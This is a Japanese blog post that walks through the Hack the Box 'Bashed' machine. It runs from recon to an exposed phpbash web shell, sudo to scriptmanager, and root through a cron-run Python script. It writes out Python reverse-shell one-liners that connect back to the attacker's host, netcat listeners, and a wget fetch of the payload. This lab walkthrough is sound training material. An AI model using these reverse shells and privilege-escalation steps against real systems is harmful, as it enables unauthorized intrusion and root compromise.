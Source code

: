 ```yaml
---
title: "【Hack the Box write-up】Bashed"
date:  "2020-03-15"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Bashed"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

#はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
#cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

#machine について
難易度は easy です。


#nmap

```
kali@kali:~$ nmap -p- -sC -sV 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-14 20:53 EDT
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 65505 closed ports, 29 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4542.47 seconds

```

#80 番ポートを開いてみる
![スクリーンショット 2020-03-15 16.37.49.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/ab2814c3-17c9-df5d-cc50-5fe7f03f99ec.png)
![スクリーンショット 2020-03-15 16.38.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f032ba69-c5ec-03a3-583f-16f396d4ec9e.png)

phpbash について説明した記事が出てきます。

#dirbuster

![スクリーンショット 2020-03-15 16.38.56.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/70945b83-cc45-d99f-45f3-641eea71d2eb.png)
`/dev`に `phpbash.php` が見つかります。

#`phpbash.php`を開く
![スクリーンショット 2020-03-15 16.40.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/d55101b4-8931-e12e-86f2-435f751dca78.png)
このようなターミナルのような画面が現れます。

![スクリーンショット 2020-03-15 16.42.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7e7e3071-d7b1-54f4-100c-63d6a2ee364d.png)

user.txt が取れました。

#とりま `sudo -l` する

![スクリーンショット 2020-03-15 16.43.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a2a2b561-cc6d-f867-cba4-4083c68f6d1e.png)

scriptmanager という user に切り替えられることがわかります。

#リバースシェルをとる

なぜか phpbash で scriptmanager の bash に切り替えられなかったので（←詰まったポイント 1)phpbash から一旦普通のリバースシェルに切り替えます。

ホスト側で以下のように待ち構えて

```
$ nc -lvnp 4242
```
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python のコードをそのまま拝借して使用します。
IPv4 ではなぜか失敗します（←詰まったポイント 2
他の writeup をみてみると IPv4 じゃなくて IPv6 なら成功するよってことで IPv6 を使用すると、

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

以下のようにリバースシェルが取れました。

```
kali@kali:~$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 39742
/bin/sh: 0: can't access tty; job control turned off
$ 
```

そしてリバースシェルの方で scriptmanager に切り替えようとしてみると

```
$ sudo -u scriptmanager bash
whoami
scriptmanager
```
成功しました。

#ディレクトリ探索
scriptmanager という名前なので script などの名前のついたファイルを中心に探してみると、ルートディレクトリに `/script` が存在し、案の定 scriptmanager が所有していることになっています。

```
cd /
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Mar 14 17:55 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 124 root          root              0 Mar 14 17:55 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Mar 14 17:55 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Mar 15 00:33 sys
drwxrwxrwt  10 root          root           4096 Mar 15 00:55 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

中をみてみます。

```
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar 15 00:56 test.txt
```
scriptmanager の所有する `test.py` 、root が所有する `test.txt` が存在します。
中を覗くと

```
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

cat test.txt
testing 123!
```
となっています。

ここでもここからどうすれば？？という感じだったのですが、注目すべきは `test.txt` の**更新時間**でした。

このファイルだけ明らかに最近更新されており、`ls -la`でみるたびに更新されています。

- 頻繁に更新されていることから自動で `test.py` が実行されるようになっていると予想される
- `test.txt`は root の所有なので `test.py` の実行は root が行なっていると考えられる
- そして `test.py` は scriptmanager の所有なので編集できる

ここまで言えば何をすればいいか明確ですね（←自分では分からなくて[writeup](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/)みた人）

#test.py を編集する
正確には編集したものをホストから持ってきます。

```test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

見にくいですね。これは先ほどの[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python の IPv6 のコードをそのまま持ってきたものです（IP アドレスとかは変えてます）

ホスト側で SimpleHTTPServer を使って machine 側で取得します。

```
kali@kali:~$ python -m SimpleHTTPServer
```

```
rm test.py
wget http://10.10.14.3:8000/test.py
--2020-03-15 01:09:23--  http://10.10.14.3:8000/test.py
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 215 [text/plain]
Saving to: 'test.py'

     0K                                                       100% 24.3M=0s

2020-03-15 01:09:24 (24.3 MB/s) - 'test.py' saved [215/215]
```

これで既存の test.py を先ほど編集した test.py に切り替えられました。
ホスト側で root のリバースシェルを待ち受けます

```
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
```
>自動で `test.py` が実行されるようになっていると予想される

なのでしばらく待ってみると

```
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 37178
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
root が取れました！

#終わりに
今回は `ls -la` で所有者の違いと更新日時から root が定期的に `test.py` を実行しているということを見破るという部分が自分では見破れませんでした…
精進します。。

